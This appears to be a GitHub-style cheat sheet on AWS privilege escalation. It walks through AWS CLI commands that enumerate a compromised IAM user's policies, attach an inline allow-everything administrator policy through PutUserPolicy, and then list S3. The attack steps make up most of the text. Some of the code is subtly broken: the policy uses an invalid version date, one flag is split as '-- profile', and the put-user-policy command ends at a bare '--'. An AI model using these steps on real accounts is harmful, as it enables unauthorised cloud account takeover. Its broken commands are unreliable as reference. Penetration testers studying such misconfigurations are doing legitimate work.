 # Privilege Escalation

### Privilege escalation on AWS is based on misconfigurations, if we have more permissions than necessary, its possible to obtain higher privileges.

## Case study

### A user was compromised with the List Policy and Put User Policy permissions, an attacker could leverage this Put User privilege to add an inline administrator to itself, making it administrator of the instance.

## Exploitation

#### 1) Getting the IAM user

    aws sts get-caller-identity

#### 2) Listing policies attached to a user

    aws iam list-attached-user-policies --user-name EXAMPLE_NAME -- profile EXAMPLE_PROFILE

#### 3) Retrieving information about a specific policy

    aws iam get-policy --policy-arn POLICY_ARN

### If there are more than one version of the policy, we can also list them

    aws iam list-policy-versions --policy-arn POLICY_ARN

### Now we can finally retrieve the contents of the policy

    aws iam get-policy-version --policy-arn EXAMPLE_ARN --version-id ID_EXAMPLE

#### It's important to use the command above to chech the information about the default policy

## Escalation

### If we have the PutUserPolicy is enabled, we can add an inline administrator policy to our user.

## Administrator Policy Example:

    {
    "Version": "2021-10-17",
    "Statement" : [
    {
    "Effect":"Allow",
    "Action": [
    "*"
    ],
    "Resource":[
    "*"
    ]
        }
      ]
    }

### Attaching this policy into our user

    aws iam put-user-policy --user-name EXAMPLE_USERNAME --policy-name EXAMPLE_NAME --

### Listing inline policies of our user

    aws iam list-user-policies --user-name EXAMPLE_NAME

### Listing a restricted resource (Example S3)

    aws s3 ls --profile EXAMPLE_PROFILE
